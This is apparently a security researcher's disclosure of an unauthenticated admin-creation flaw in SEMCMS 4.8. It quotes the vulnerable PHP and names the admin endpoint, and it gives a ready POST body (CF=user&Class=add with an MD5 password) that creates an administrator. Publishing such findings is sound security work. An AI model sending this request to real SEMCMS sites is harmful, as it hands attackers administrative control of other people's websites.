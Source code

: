 # Sem CMS 4.8 Unauthenticated User Gains Admin Privilege


Introduction to Semcms

SEMCMS is a foreign trade website content management system (CMS) that supports multiple languages.

v4.8 Download Link: http://www.sem-cms.com/TradeCmsdown/php/semcms_php_4.8.zip
Causes of vulnerabilities:

/6EeOq0_Admin/Top_include.php

Vulnerable Code Blocks:

```
<?php
include_once './Include/inc.php';
include_once 'SEMCMS_Function.php';
$SCQuanXian=checkuser($db_conn);
?>
```

One can observe that the code installs SEMCMS_Funtion.php before checking if the admin is a valid user in the admin page because authentication funnction is called from there.

Below you can observe the authentication check function which starts at line 984 and ends at line 1013

```
}elseif($CF=="users"){  
 
   if($Class=="login"){ //登陆   
       
       $US=test_input($_POST['UserName']);
       $PS=test_input($_POST['UserPass']);
     
        if(empty($US) || empty($PS)){

                 echo "<script language='javascript'>alert('账号或密码不能为空!');top.location.href='index.html';</script>";

        }else{

                $PS=md5($PS);
                $query=$db_conn->query("select * from sc_user where user_admin='$US' and user_ps='$PS'");
                if (mysqli_num_rows($query)>0 ){

                      $row=mysqli_fetch_assoc($query);

                      setcookie("scusername", $row['user_name'],time()+3600*24,"/");
                      setcookie("scuseradmin", $row['user_admin'],time()+3600*24,"/");
                      setcookie("scuserpass", $row['user_ps'],time()+3600*24,"/");//设定时间为24个小时
                      header("Location:SEMCMS_Main.php");  

                  }else{

                       echo "<script language='javascript'>alert('账号或密码错误!');top.location.href='index.html';</script>";

                   }
        }
```



If we look further in 'SEMCMS_Funtion.php' to check what are the avaliable functions, the code snippet below found at 782 which is used to add or modify an admin:

```
elseif ($CF=="user"){

         $table="sc_user";

        if($Class=="add" || $Class=="edit"){ //信息添加

           $user_name=test_input($_POST['user_name']);
           $user_admin=test_input($_POST['user_admin']);
           $user_ps=  test_input($_POST['user_ps']);
           $user_tel=test_input($_POST['user_tel']);
           $user_email=test_input($_POST['user_email']);
           $field="user_name,user_admin,user_ps,user_tel,user_email";
           $val=array($user_name,$user_admin,$user_ps,$user_tel,$user_email); 

        }

        switch ($Class) {

          case 'add':

            if(empty($user_name) || empty($user_admin) || empty($user_ps) || empty($user_email)  ){  //判断空字段 

               header("Location:SEMCMS_User.php?type=add&err=003"); 

             }else{  //写入数据库
                
              $Ant->AntAdd($table,$field,$val,$db_conn); //写入数据库 
              header("Location: SEMCMS_User.php?lgid=".$languageID."&err=001");     
                
            }

            break;
```

When we visit the page http://url/6EeOq0_Admin/index.html  the application installs the login form. When we send a dumb login request we see that the credentials are posted to the end-point "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=users&Class=login HTTP/1.1"

![image](https://github.com/turabiaslan/semcms/assets/32524544/5db25ff0-a3e0-40b5-a54a-053e54c4166a)

Observe the parameters: CF=users and Class=login. So The application calls SEMCMS_Top_include.php and then that page calls SEMCMS_Funtion.php. Let's send this request to Burp Suite's Repater.


If we change CF parameter to 'user' and Class parameter to 'add' like as shown in the last code snippet, we should be able to send an admin adding request to the "/6EeOq0_Admin/SEMCMS_Top_include.php?CF=user&Class=add" end-point.



There are five parameters present in the body of the request; user_name, user_admin, user_ps, user_tel, user_email. When we add this parameters to the request and supply values them respectively, we should be able to add an admin user without authenticating the application.
Below you can find the payload. user_ps value is the MD5 hash of string 1.

```
user_name=turabi&user_admin=Turabi&user_ps=c4ca4238a0b923820dcc509a6f75849b&user_tel=b&user_email=turabi@beam.com
```

![image](https://github.com/turabiaslan/semcms/assets/32524544/08a9bdf2-00f0-484e-bb7f-7f6ca7f44a31)



Let's try the new user on the application:

![image](https://github.com/turabiaslan/semcms/assets/32524544/4961d962-4728-429a-a641-d021a79ae590)


We successfully login to our newly added 

![image](https://github.com/turabiaslan/semcms/assets/32524544/87330e72-c1d8-4a14-b3c2-6e786cc212f4)
